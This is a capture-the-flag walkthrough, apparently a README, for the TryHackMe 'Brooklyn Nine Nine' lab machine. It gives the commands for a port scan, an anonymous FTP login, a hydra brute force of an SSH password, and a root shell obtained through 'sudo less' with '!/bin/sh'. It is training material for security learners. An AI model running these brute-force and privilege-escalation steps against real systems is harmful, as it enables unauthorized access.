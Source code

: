 # TryHackMe : Brooklyn Nine Nine CTF Walkthrough

![Brooklyn](Images/brooklyn.png)

</br>

So, Hey Guys This is Vikas Anand. This is my first ever CTF Walkthrough.

</br>

This CTF is from TryHackMe ["Brooklyn_Nine_Nine"](https://tryhackme.com/room/brooklynninenine) So join the Room and let's Hack the CTF cheers :)

</br>
First Scan the Machine with Nmap :

`
sudo nmap -sS -A 10.10.233.242
`


![Nmap](Images/nmap.png)

Here We can see 3 Ports Open :

1. 21 - ftp
2. 22 - ssh
3. 80 - http

After Enumerating ftp port we can see that it has anynomous login allowed. We, can simply login it through ftp 

`
ftp 10.10.233.242 21
`

*Name : anynomous*</br>
*pass : anynomous*

![ftp](Images/ftp.png)

We can clearly see we have found a file named "note_to_jake.txt". Get the file in you system using _get_ command.

Now lets find What's inside it :

`cat note_to_jake.txt`

![note_to_jake.txt](Images/note_to_jake.png)

Here we can find there are 3 users :

* Any
* jake
* holt


Where, jake password is weak. Let's Bruteforce jake password using _hydra_ with port ssh open :

` hydra -l jake -P /usr/share/wordlists/rockyou.txt -t 4 ssh://10.10.233.242`

![hydra](Images/hydra.png)

We, Successfully find the jake password. Let's dig into jake account using ssh

`ssh jake@10.10.233.242`

We find 3 users in home directory.

![home](Images/home.png)

After Enumerating we find _user.txt_ flag in holt account.

![user](Images/user.png)

Now we have to go into root account for this we have to esclate our privilages.

![sudo](Images/sudo.png)

We can see _less_ is vulnerable we can go into root using _less_ command.

`sudo less user.txt`

`!/bin/sh`

Successfully We get root ! Now Let's find _root_ flag.

![root](Images/root.png)

Awsoome we find our both the flag .

Thanks for reading the entire Walkthrough.







